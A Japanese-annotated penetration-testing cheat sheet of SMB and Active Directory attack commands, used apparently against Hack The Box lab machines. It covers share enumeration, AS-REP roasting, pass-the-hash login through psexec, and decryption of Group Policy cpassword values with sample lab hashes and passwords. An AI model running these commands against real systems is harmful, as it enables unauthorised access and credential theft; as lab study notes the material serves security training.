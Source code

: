 # nmap
    sudo nmap -sVC -vv -n --script "safe or smb-enum-*" -p 139,445 10.129.1.171

# smbclient  

### 接続
    smbclient -L <ipaddr>
    smbclient \\\\10.129.138.203\\Replication

### 再起的にファイルを取得

    $ smbclient \\\\10.129.138.203\\Replication               
    Enter WORKGROUP\asai's password:
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (2.2 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (0.6 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (1.1 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.9 KiloBytes/sec) (average 1.1 KiloBytes/sec)


### passwordポリシーの取得

    crackmapexec smb 10.129.1.77 --pass-pol -u '' -p ''

### impacket

    python3 GetNPUsers.py -dc-ip 10.129.1.77 -request 'htb.local/' -format hashcat


### パスワードクラック



### ログイン

hashつかったログインが可能か確かめる
    crackmapexec smb 10.129.1.77 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

psexec(hash)
aad3bからLMハッシュが始まる場合はblankなのでNTハッシュで埋める
    psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.1.77

smbでログインできるけど何もできずローカルのログインはすでに別ユーザでできている場合

    $pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
    $pass
    System.Security.SecureString
    $cred = New-Object System.Management.Automation.PSCredential("Sniper\\Chris",$pass)
    Invoke-Command -ComputerName Sniper -Credential $cred -ScriptBlock {whoami}
### smbmap

再起的なディレクトリ検索
    smbmap -H 10.129.138.203 -R Replication

パターン検索ファイルのダウンロード
    smbmap -H 10.129.138.203 -R Replication -A Groups.xml -q

認証情報指定して検索
    smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.203

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
